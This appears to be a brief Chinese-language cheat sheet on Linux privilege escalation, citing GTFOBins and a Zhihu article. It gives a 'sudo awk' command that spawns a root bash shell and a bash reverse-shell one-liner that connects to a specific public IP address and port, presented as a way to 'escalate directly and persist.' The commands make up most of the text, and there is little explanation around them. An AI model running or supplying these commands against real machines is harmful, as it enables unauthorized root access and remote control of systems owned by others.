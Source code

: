 <https://gtfobins.github.io/>
awk是文本处理程序。
知道低权限账户密码是交互式shell 或可以直接执行：
```
sudo awk
```

直接提权持久：
```
sudo awk 'BEGIN {system("/bin/bash")}'

sudo bash -i >& /dev/tcp/47.109.58.205/2333 0>&1
```
<https://zhuanlan.zhihu.com/p/130228710#:~:text=%E6%AD%A4%E6%97%B6%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7%E5%B0%B1%E5%8F%AF%E4%BB%A5%E5%88%A9%E7%94%A8sudo%E6%9D%A5%E5%AE%9E%E7%8E%B0%E6%8F%90%E6%9D%83%EF%BC%8C%E4%BD%BF%E8%87%AA%E5%B7%B1%E6%8B%A5%E6%9C%89root%E6%9D%83%E9%99%90%20%E5%85%B6%E4%B8%AD%E7%9A%84%E5%8E%9F%E7%90%86%E5%91%A2%EF%BC%8C%E5%B0%B1%E6%98%AF%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7%E5%9C%A8%E4%BD%BF%E7%94%A8sudo%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E7%9A%84%E8%BF%87%E7%A8%8B%E4%B8%AD%EF%BC%8C%E4%BC%9A%E6%9A%82%E6%97%B6%E6%8B%A5%E6%9C%89root%E6%9D%83%E9%99%90%EF%BC%8C%E5%A6%82%E6%9E%9C%E8%AF%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B2%A1%E6%9C%89%E4%B8%AD%E6%96%AD%EF%BC%8C%E8%80%8C%E4%B8%94%E8%AF%A5%E5%91%BD%E4%BB%A4%E8%BF%90%E8%A1%8C%E7%9A%84%E8%BF%87%E7%A8%8B%E4%B8%AD%E5%8F%AF%E4%BB%A5%E8%B0%83%E7%94%A8%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4%EF%BC%8C%E9%82%A3%E5%B0%B1%E5%8F%AF%E4%BB%A5%E7%9B%B4%E6%8E%A5%E8%BF%90%E8%A1%8C%2Fbin%2Fbash%EF%BC%8C%E6%AD%A4%E6%97%B6%E5%B0%B1%E6%98%AF%E5%9C%A8root%E6%9D%83%E9%99%90%E4%B8%8B%E8%BF%90%E8%A1%8Cbash%E4%BA%86%E3%80%82%20%E5%88%A9%E7%94%A8awk%E5%91%BD%E4%BB%A4%20sudo%20awk%20%E2%80%98BEGIN,%7Bsystem%20%28%E2%80%9C%2Fbin%2Fbash%E2%80%9D%29%7D%E2%80%99%202.%20%E5%88%A9%E7%94%A8vim%E5%B7%A5%E5%85%B7%EF%BC%8Csudo%20vim%E6%89%93%E5%BC%80%E5%90%8E%E8%BE%93%E5%85%A5%E5%91%BD%E4%BB%A4%3A%21%2Fbin%2Fbash%20%E5%8D%B3%E5%8F%AF>
